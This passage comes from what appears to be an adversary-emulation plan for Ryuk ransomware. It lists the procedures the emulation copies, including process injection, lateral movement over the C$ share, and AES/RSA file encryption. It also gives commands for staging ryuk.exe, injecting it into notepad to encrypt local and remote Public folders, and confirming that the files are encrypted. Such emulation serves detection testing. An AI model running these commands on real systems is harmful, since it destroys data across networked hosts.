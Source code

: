 From the remote process, Ryuk will encrypt files on wizard/10.0.0.4's C:\Users\Public directory (recursive).

Next, Ryuk encrypts files on Toto/10.0.0.8 at \\C$\Users\Public (mounted on wizard as Z:).

Ryuk uses a symmetric key algorithm, AES256 to encrypt files.

Note that the symmetric key is itself encrypted with RSA2048.

*Note: early versions of our Ryuk emulation encrypted the entire filesystem; however, this proces took hours, rather than minutes, so we scaled it back due to time constraints.*

---

### :biohazard: Procedures

```bash
# Ryuk has attempted to adjust its token privileges to have the SeDebugPrivilege.[11]

# Ryuk has called CreateToolhelp32Snapshot to enumerate all running processes.[1]

# Ryuk has injected itself into remote processes to encrypt files using a combination of VirtualAlloc, WriteProcessMemory, and CreateRemoteThread.[1]

# Ryuk has used a combination of symmetric (AES) and asymmetric (RSA) encryption to encrypt files. Files have been encrypted with their own AES key and given a file extension of .RYK. Encrypted directories have had a ransom note of RyukReadMe.txt written to the directory.[1]

# Ryuk has used the C$ network share for lateral movement.[5]

# Ryuk has called GetIpNetTable in attempt to identify all mounted drives and hosts that have Address Resolution Protocol (ARP) entries.[1][5]
```

```
copy \\TSCLIENT\X\ryuk.exe C:\Users\Public\ryuk.exe
```

```bash
C:\Windows\System32\notepad.exe
```

```bash
C:\Users\Public\ryuk.exe --encrypt --process-name notepad.exe
```

To confirm that encryption worked, execute the following in CMD:

```bash
# confirm files are encrypted (local)
type C:\Users\Public\Documents\Whitepaper_ekFUNt.rtf

# confirm encryption (remote)
type \\toto\C$\Users\Public\Documents\Whitepaper_ekFUNt.rtf
```

### :microscope: Cited Intelligence
